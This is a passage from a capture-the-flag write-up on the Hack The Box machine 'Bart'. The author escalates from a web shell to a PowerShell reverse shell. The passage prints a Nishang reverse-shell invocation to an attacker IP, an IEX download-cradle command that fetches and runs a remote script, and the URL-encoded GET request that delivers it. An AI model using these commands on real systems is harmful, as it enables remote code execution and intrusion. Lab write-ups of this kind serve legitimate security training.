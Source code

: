 ```aaa
04/10/2017  08:42    <DIR>          monitor.bart.local
06/02/2018  11:15    <DIR>          privileged
21/02/2018  22:45    <DIR>          Public
02/10/2017  13:08    <DIR>          test
               0 File(s)              0 bytes
              12 Dir(s)  15,725,846,528 bytes free
```

From this account we don't seem to have permissions to open any of these folders. To better enumerate the system it's more convenient to spawn a real reverse shell so I'll be using Nishang's Invoke-PowerShellTcp.ps1, in Parrot it's located at the following path:

```aaa
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
```

I added an extra line at the end of the script to start the connection to our host automatically as soon as the script is executed:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.29 -Port 9999
```

And then sent this command in the cmd parameter of my web shell to load the script in PowerShell directly from our host:

```powershell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:9090/ps_bart.ps1')
```

This long command will result in this GET request which will trigger our shell:

```http
GET /log/baudy.php?cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%49%45%58%28%4e%65%77%2d%4f%62%6a%65%63%74%20%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%64%6f%77%6e%6c%6f%61%64%53%74%72%69%6e%67%28%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%32%39%3a%39%30%39%30%2f%70%73%5f%62%61%72%74%2e%70%73%31%27%29%22 HTTP/1.1
Host: internal-01.bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=4j2gp67fs46vgvd9mr9ibgoc47
Upgrade-Insecure-Requests: 1
```

After starting a listener, an HTTP server to host the script, and sending the request we receive the shell, but unfortunately for some reason each character I pressed in the shell would be appended to a carriage return and is thus intepreted as a command, giving errors at every key press. I don't know why this was the case, but I solved it by just copying-pasting the commands in the shell at once, the output still begins from the same line of the input though so I apologize for the annoyance and poor readability of the following screenshots.

![img](/images/writeup-bart/23.png)

---